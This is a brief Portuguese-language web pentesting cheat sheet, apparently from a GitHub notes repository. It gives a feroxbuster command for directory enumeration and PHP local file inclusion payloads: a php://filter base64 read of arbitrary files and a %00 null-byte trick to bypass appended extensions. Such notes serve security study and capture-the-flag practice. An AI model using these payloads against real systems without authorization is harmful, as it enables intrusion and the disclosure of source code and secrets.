 Enumeração de diretórios e arquivos:
`feroxbuster -u http://$RHOST/ -A -r -x txt -q -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -C 404 --dont-scan 'manual'`

## PHP
Erro de include em PHP, faça o teste com filter para converter o arquivo em Base64:
`http://$RHOST/?param=php://filter/read=convert.base64-encode/resource=[LFI]`
Para ignorar a extensão no final da URL caso a mesma seja adicionada automaticamente, utilize Null Byte:
`%00`
